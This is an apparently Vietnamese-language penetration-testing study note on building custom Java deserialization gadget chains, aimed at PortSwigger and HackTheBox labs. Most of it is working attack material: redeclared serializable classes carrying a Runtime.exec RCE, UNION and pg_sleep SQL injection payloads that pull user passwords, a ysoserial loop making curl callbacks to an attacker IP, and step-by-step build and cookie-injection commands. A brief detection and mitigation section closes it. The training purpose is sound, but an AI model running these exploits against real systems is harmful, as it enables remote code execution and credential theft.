

> **Prerequisites**: [[05-ysoserial-commons-collections|05. ysoserial & CommonsCollections]]
> **Objectives**:
> - Xây gadget chain từ đầu khi ysoserial chains không work
> - Master FieldValues trick để wrap gadget trong app-specific class
> - Khai thác secondary vulnerabilities (SQLi, SSRF) thông qua gadget chain
> - Hiểu khi nào cần custom gadget và process tìm kiếm gadgets mới
>
---

## Điều kiện khai thác

> [!note] Điều kiện
> - Known ysoserial chains đều fail (không có gadget lib phù hợp, hoặc bị block bởi filter)
> - Có source code hoặc decompiled JAR của ứng dụng
> - Ứng dụng có ít nhất một Serializable class với dangerous readObject() hoặc chain-able methods
> - Hoặc: app type-checks deserialized object nhưng có thể bypass bằng FieldValues trick
>
---

## Cơ chế tấn công

### Khi nào cần Custom Gadget?

Ysoserial chains dựa trên **thư viện phổ biến**. Khi:
1. App không có commons-collections, spring, groovy... trong classpath
2. App dùng `SerialKiller` blacklist chặn các class đã biết
3. App type-cast deserialized object: `MyClass obj = (MyClass) ois.readObject()` → phải dùng class đúng type
4. App chỉ có gadget nằm trong application-specific classes

### FieldValues Trick — Wrap gadget trong App-Specific Class

![[img-06-custom-gadget-chain.svg]]
*Hình 1: FieldValues trick — redeclare class với same name để embed gadget chain trong app-specific wrapper*

**Nguyên lý**: Java deserialization tìm class theo `serialVersionUID` + package + class name. Nếu attacker redeclare class với:
- Cùng package name và class name
- Cùng `serialVersionUID`  
- Thêm field `Object gadget` (bất kỳ tên nào)

Thì serialized bytes của class đó sẽ được JVM accept trên server, và JVM sẽ restore field `gadget` là một object — object đó có thể là gadget chain!

```java
// === Trên SERVER (decompile từ JAR) ===
package com.company.app;
class ProductResult implements Serializable {
    private static final long serialVersionUID = 7368028399634075538L;
    private final String id;
    private final Object result;

    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        // Dangerous: uses this.result in some way
        process(this.result); // hoặc kích hoạt qua chain
    }
}

// === Trong EXPLOIT (redeclare để embed gadget) ===
package com.company.app;   // SAME package!
class ProductResult implements Serializable {
    private static final long serialVersionUID = 7368028399634075538L; // match!
    private final String id = "ignored";
    private final Object result; // thêm field → sẽ được deserialize

    ProductResult(Object gadgetChain) {
        this.result = gadgetChain;
    }
}

// Build payload
ProductResult wrapper = new ProductResult(buildCC6Chain("id"));
byte[] payload = serialize(wrapper);
```

### Anatomy của một Custom Chain từ Source Code

**Bước 1: Tìm entry gadgets** — class có magic methods:

```java
// Tìm trong decompiled source
// grep pattern:
// - "implements Serializable"
// - "private void readObject(ObjectInputStream"
// - "private Object readResolve()"

// Ví dụ vulnerable readObject
class VulnerableConfig implements Serializable {
    private String configData;
    private ScriptEngine engine; // transient = không serialize, nhưng reinstantiated

    private void readObject(ObjectInputStream ois) throws Exception {
        ois.defaultReadObject();
        engine = new ScriptEngineManager().getEngineByName("nashorn");
        engine.eval(configData); // SINK: eval attacker-controlled string!
    }
}
// → configData là attacker-controlled → RCE thông qua JavaScript eval
```

**Bước 2: Tìm pivot gadgets** — dùng để kết nối entry với sink:

```java
// Tìm class có:
// - Method được gọi từ hashCode(), equals(), toString()
// - Method nhận Object parameter (flexible)
// - Method gọi method trên field có thể là attacker-controlled

// Ví dụ pivot
class DataProcessor implements Serializable {
    private Object handler;

    public int hashCode() {
        return handler.hashCode(); // → gọi hashCode trên attacker-controlled object
    }
}
```

**Bước 3: Xây chain bằng code**:

```java
// Exploit.java — chạy trên máy attacker
import java.io.*;

// Redeclare vulnerable classes
package com.company.app;
class VulnerableConfig implements Serializable {
    private String configData;
    VulnerableConfig(String code) { this.configData = code; }
}

public class Exploit {
    public static void main(String[] args) throws Exception {
        // Build inner chain
        VulnerableConfig config = new VulnerableConfig(
            "java.lang.Runtime.getRuntime().exec('bash -c ...');"
        );

        // Serialize
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(config);
        oos.flush();

        // Base64 encode
        String b64 = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(b64);
    }
}
```

### PortSwigger Lab: ProductTemplate + SQL Injection

Một biến thể thú vị: gadget chain không trigger OS command mà trigger SQLi:

```java
// Server code (decompile từ lab)
class ProductTemplate implements Serializable {
    private final String id;

    private void readObject(ObjectInputStream inputStream)
            throws IOException, ClassNotFoundException {
        inputStream.defaultReadObject();
        // id được dùng trực tiếp trong SQL query
        jdbcTemplate.queryForObject(
            "SELECT * FROM products WHERE id = '" + id + "'",
            ...
        );
    }
}
```

**Exploit**: Tạo `ProductTemplate` với `id` là SQL injection payload:

```java
// Trên máy attacker
class ProductTemplate implements Serializable {
    private static final long serialVersionUID = 1234L; // lấy từ decompile
    private final String id;
    ProductTemplate(String id) { this.id = id; }
}

// Build SQLi payload
ProductTemplate sqli = new ProductTemplate(
    "' UNION SELECT NULL,username||':'||password,NULL,NULL,NULL FROM users--"
);
```

---

## Quy trình tấn công

**Môi trường giả định**: PortSwigger-style lab với custom app, ysoserial chains fail.

**Bước 1 — Xác nhận ysoserial chains không work**

```bash
for chain in CC6 CommonsBeanutils1 CC2 Spring1 ROME Groovy1 URLDNS; do
  java -jar ysoserial-all.jar $chain "curl http://10.10.14.5/$chain" 2>/dev/null | \
    base64 -w0 > /tmp/$chain.txt
  # Test và check callback
  echo "Testing $chain..."
done
# Nếu chỉ URLDNS work (DNS nhưng không exec) → cần custom chain
```

> **Expected output**: Chỉ URLDNS callback (DNS only) → xác nhận deserialize nhưng không có gadget lib phù hợp.
>
**Bước 2 — Download và decompile JAR**

```bash
# Nếu có web access vào JAR
curl -s http://target.htb/app.jar -o app.jar

# Decompile với jadx
jadx-gui app.jar &
# Hoặc CLI
jadx -d decompiled_output app.jar

# Tìm Serializable classes
grep -r "implements Serializable" decompiled_output/sources/
```

> **Expected output**: Danh sách classes implement Serializable, đặc biệt cần tìm readObject().
>
**Bước 3 — Tìm entry gadget**

```bash
# Tìm readObject implementations
grep -r "readObject\|readResolve\|readObjectNoData" decompiled_output/ --include="*.java"

# Tìm dangerous patterns
grep -r "eval\|exec\|Runtime\|ProcessBuilder\|ScriptEngine\|JDBC\|query" decompiled_output/ --include="*.java"
```

> **Expected output**: Ít nhất một class có `readObject()` với dangerous code.
>
**Bước 4 — Xác định serialVersionUID**

```bash
# Từ decompiled code (jadx thường hiển thị)
grep -r "serialVersionUID" decompiled_output/ --include="*.java"

# Hoặc dùng javap trực tiếp
javap -verbose app/ProductTemplate.class | grep serialVersionUID
```

> **Expected output**: `private static final long serialVersionUID = 7368028399634075538L;`
>
**Bước 5 — Xây exploit project**

```bash
# Tạo project structure
mkdir exploit && cd exploit
mkdir -p src/com/company/app

# Redeclare target class
cat > src/com/company/app/ProductTemplate.java << 'EOF'
package com.company.app;
import java.io.Serializable;

public class ProductTemplate implements Serializable {
    static final long serialVersionUID = 7368028399634075538L; // match!
    private final String id;

    public ProductTemplate(String id) { this.id = id; }
}
EOF

# Main exploit
cat > src/Exploit.java << 'EOF'
import com.company.app.ProductTemplate;
import java.io.*;
import java.util.Base64;

public class Exploit {
    public static void main(String[] args) throws Exception {
        String payload = args.length > 0 ? args[0] : "' OR '1'='1";
        ProductTemplate obj = new ProductTemplate(payload);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        new ObjectOutputStream(baos).writeObject(obj);
        System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
    }
}
EOF

# Compile và run
javac -d out src/**/*.java
java -cp out Exploit "' UNION SELECT NULL,password,NULL FROM users--"
```

> **Expected output**: Base64 string chứa serialized object với SQL injection payload.
>
**Bước 6 — Inject và exfiltrate**

```bash
PAYLOAD=$(java -cp out Exploit "' UNION SELECT NULL,NULL||':'||password,NULL FROM users--")
curl -s http://target.htb/ -H "Cookie: session=$PAYLOAD" | grep -oP "admin:\w+"
```

> **Expected output**: `admin:s3cr3tpassword` trong response.
>
---

## Biến thể & Bypass

### Bypass type casting với FieldValues

Nếu server cast: `ProductResult res = (ProductResult) ois.readObject()`:

```java
// Thông thường class check kiểu → ClassCastException
// FieldValues trick: redeclare với same package/name/serialVersionUID
// → JVM accept class, không throw ClassCastException
// → Gadget trong field được deserialize và triggered
```

### Secondary SQLi chain (PortSwigger pattern)

Gadget chain không phải lúc nào cũng cần OS exec. SQLi qua readObject() có thể dẫn đến data exfiltration hoặc auth bypass:

```java
// Time-based SQLi để confirm
String sqliPayload = "' || pg_sleep(10)--";
// Nếu response delay 10s → SQLi confirmed

// Union-based để extract data
String extractPayload = "' UNION SELECT NULL,NULL,NULL||':'||password,NULL FROM users WHERE username='administrator'--";
```

### Gadget từ application-specific dependencies

Ngoài gadget phổ biến, xem xét:
- Spring Security classes
- Hibernate ORM serializable entities
- Custom serialization framework (Kryo, FST, XStream)
- Jackson với polymorphic types

---

## Cây quyết định



---

## Command Cheatsheet

**Decompile và analyze**

```bash
# jadx CLI
jadx -d ./decompiled app.jar
jadx -d ./decompiled app.war

# Find entry gadgets
grep -r "implements Serializable" ./decompiled/sources/ -l
grep -r "private void readObject" ./decompiled/sources/

# Extract serialVersionUID
javap -verbose target/SomeClass.class | grep serialVersionUID
```

**Build exploit project**

```bash
# Compile structure
mkdir -p exploit/src/com/company/app exploit/out
# Write redeclared class + Exploit.java
javac -d exploit/out $(find exploit/src -name "*.java")
java -cp exploit/out Exploit "PAYLOAD_ARGUMENT" | base64
```

**Test và inject**

```bash
# Test với benign payload (time-delay SQL)
java -cp out Exploit "' || pg_sleep(5)--" | base64 > test.txt
time curl -s http://target/ -H "Cookie: session=$(cat test.txt)"
# Nếu response > 5s → SQLi confirmed
```

---

## Daily Drill

**Thời gian**: 20–30 phút/ngày trong 5 ngày.

**Drill 1 — jadx search workflow**
Mục tiêu: tìm Serializable + readObject trong JAR trong dưới 3 phút.

```bash
jadx -d /tmp/decompiled sample.jar 2>/dev/null
grep -r "readObject\|implements Serializable" /tmp/decompiled/sources/ | grep -v ".java.original" | head -20
```

Luyện cho đến khi: quy trình này chạy trong 2 phút.

**Drill 2 — Redeclare class từ decompiled**
Mục tiêu: nhìn decompiled code và viết lại redeclared version trong dưới 5 phút.

Bài tập: Lấy một class `implements Serializable` từ jadx, viết lại với thêm `Object gadget` field và matching `serialVersionUID`.

Luyện cho đến khi: không cần nghĩ về package/serialVersionUID syntax.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **ClassLoader**: Unusual class names được load — attacker redeclared classes
> **Compilation artifacts**: `.class` files với same package/name như prod classes
> **Database logs**: Unusual SQL queries với UNION/sleep/pg_sleep
> **Application logs**: ClassCastException cascade khi chain fail
>
> **Mitigation**: Implement `ObjectInputFilter` whitelist chỉ accept expected class hierarchy; log tất cả deserialized class names
>
---

## Lab Thực hành

| Platform | Machine | Kỹ thuật |
|----------|---------|---------|
| PortSwigger | **Developing a custom gadget chain for Java deserialization** | ProductTemplate SQLi via readObject |
| PortSwigger | **Exploiting Java deserialization with Apache Commons** | CC chain |
| HTB | **Arkham** (Retired) | JSF ViewState với custom HMAC bypass |

---

## Field Manual Entry

> [!abstract] Custom Java Gadget Chain — Quick Reference
> **Khi nào dùng**: ysoserial fail; có source/JAR; app type-cast deserialized object
> **Process**: decompile → grep readObject → extract serialVersionUID → redeclare class → compile → serialize
> **FieldValues trick**: Redeclare class với same name + serialVersionUID, thêm `Object gadget` field
> **SQLi via gadget**: readObject dùng field trong SQL query → inject SQL payload vào field
> **Tool**: `jadx -d out app.jar` để decompile
> **Ref**: [[06-custom-java-gadget-chain|06. Custom Java Gadget Chain]]